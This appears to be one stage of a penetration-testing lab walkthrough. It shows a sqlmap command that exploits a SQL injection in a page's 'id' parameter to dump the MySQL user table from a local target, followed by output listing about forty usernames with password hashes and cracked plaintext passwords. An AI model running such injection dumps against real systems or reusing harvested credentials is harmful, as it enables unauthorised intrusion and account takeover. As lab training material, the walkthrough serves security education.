 
# Stage 3: Exploitation

Tools used:
* sqlmap
* hydra

Now that we know that an SQL injection is possible in the `id` field, as evident when we tried appending the `UNION` clause, we can use `sqlmap` to automate our SQL injection attack vector (you can also refer to this handy [MySQL SQLi cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) for manual exploitation):

`root@kali:~# sqlmap --url=http://192.168.1.120/products.php?id=1 -D mysql -T user -C user,password --dump`

```
// Output truncated
Database: mysql
Table: user
[50 entries]
+------------+------------------------------------------------------+
| user       | password                                             |
+------------+------------------------------------------------------+
| aadams     | *B021918A5DCA54916CF724573179571DFC37AC88 (jennifer) |
| aallen     | *44FFB04331ADAECB1FAB104F634E9B066BF8C6DC (pokemon)  |
| aard       | *A7D31514D37A55CE91C6C5DF97299CBC1B1937EC (jordan)   |
| aharp      | *DB1B792EC6DAE393BAE7AD832D3AF207C12E9A00 (michael)  |
| aheflin    | *E56A114692FE0DE073F9A1DD68A00EEB9703F3F1 (123123)   |
| amaynard   | *90837F291B744BBE86DF95A37D2B2524185DBBF5 (whatever) |
| aspears    | *24B8599BAF46DD4B4D8DB50A3B10136457492622 (starwars) |
| aweiland   | *6691484EA6B50DDDE1926A220DA01FA9E575C18A (abc123)   |
| bbanter    | *4DC6D98E4CF6200B9F5529AFDE2E3B909F41E4D0 (kotaku)   |
| bphillips  | *F491287896471CB21030790BF46865C4A39DE651 (batman)   |
| bwatkins   | *CFBF459D9D6057BC2A85477A38327B96F06B1597 (iloveyou) |
| cchisholm  | *AE9F960F8FA0994C9878D2245DA640EAFF09BA0E (superman) |
| ccoffee    | *D37C49F9CBEFBF8B6F4B165AC703AA271E079004 (letmein)  |
| dcooper    | *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 (password) |
| dgilfillan | *B2B366CA5C4697F31D4C55D61F0B17E70E5664EC (666666)   |
| dgrant     | *626AC8265C7D53693CB7478376CE1B4825DFF286 (pepper)   |
| djohnson   | *84AAC12F54AB666ECFC2A83C676908C8BBC381B1 (12345678) |
| dstevens   | *AA1420F182E88B9E5F874F6FBE7459291E8F4601 (qwerty)   |
| dtraylor   | *8D6A637F37955DBFCE1229204DDBED1CE11E6F41 (master)   |
| dwestling  | *A4B6157319038724E3560894F7F932C8886EBFCF (1234)     |
| hlovell    | *2A032F7C5BA932872F0F045E0CF6B53CF702F2C5 (654321)   |
| jalcantar  | *B12289EEF8752AD620294A64A37CD586223AB454 (0)        |
| jalvarez   | *FD571203974BA9AFE270FE62151AE967ECA5E0AA (111111)   |
| jayala     | *D6B63C1953E7F096DB307F8AC48C4AD703E57001 (sunshine) |
| jbresnahan | *2CE4701D02A76C12CD513109CA16967A68B4C23A (princess) |
| jdavenport | *61305383748FBEAB119F9A8BC35EBBADB4889A9D (babyl0n)  |
| jduff      | *22AC3D548EB2C2A2F4E609ADA63251D0AF795AD9 (nintendo) |
| jfranklin  | *3EEB06BE54EABF909DC8F6107110777F1DE43186 (gawker)   |
| kclemons   | *D183105443FBDE597607B8BC5475A9E1B7847F3E (gizmodo)  |
| krenfro    | *FBA7C2D27C9D05F3FD4C469A1BBAF557114E5594 (Password) |
| ktso       | *74B1C21ACE0C2D6B0678A5E503D2A60E8F9651A3 (passw0rd) |
| kwebber    | *446525BB82B5E22BD9E525261D37C494F623C52B (blahblah) |
| lmartinez  | *81101DED975D54BD76A3C8EAD293597AE9BB143F (computer) |
| lmorales   | *51AA306E66303073DBA15D2750E23C90C7A7F947 (baseball) |
| mbryan     | *46CFC7938B60837F46B610A2D10C248874555C14 (trustno1) |
| mholland   | *3B477BC23EA39BFF66D64BFB68DB5EC5F5E31C91 (consumer) |
| mnader     | *F8E113FD51D520075836A4B815568BA2B96F7C30 (dragon)   |
| mrodriguez | *00A51F3F48415C7D4E8908980D443C29C69B60C9 (12345)    |
| myajima    | *7FD9F123C9FC025372A5AAD19D107783CD19CCF7 (cheese)   |
| qpowers    | *79BF466BCC601BD91A0897BB162421F9BA8C29CA (lifehack) |
| rdominguez | *6A7A490FB9DC8C33C2B025A91737077A7E9CC5E5 (1234567)  |
```